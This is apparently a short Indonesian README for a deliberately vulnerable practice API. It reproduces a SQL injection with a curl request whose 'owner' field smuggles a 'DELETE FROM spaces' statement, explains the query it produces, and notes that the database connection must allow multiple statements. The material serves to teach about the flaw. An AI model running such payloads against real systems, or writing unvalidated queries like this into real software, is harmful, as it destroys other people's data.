 # Vulnerable API

## Reproduce

Hit api dengan data

```
curl --location --request POST 'localhost:4567/spaces' \
--header 'Content-Type: application/json' \
--data-raw '{
    "name": "test",
    "owner": "'\''); DELETE FROM spaces;  ## "
}'
```

Data diatas akan berdampak mengerikan. Data dalam table space akan terhapus semua.

### Penjelasan

Dengan data seperti itu dan input tidak divalidasi maka akan membentuk query seperti ini

```sql
INSERT INTO spaces(name, owner) VALUES('test',''); DELETE FROM spaces;  ## ')
```

Artinya, kita seharusnya hanya menjalankan query insert. Tapi karena tidak divalidasi inputannya.
Penyerang bisa menyisipi statement lain yang dapat merusak data kita.

## Note

untuk me-reproduce issue koneksi ke db harus disetmultistatement=true

```bash
root:root@tcp(127.0.0.1:3306)/natter?multiStatements=true
```

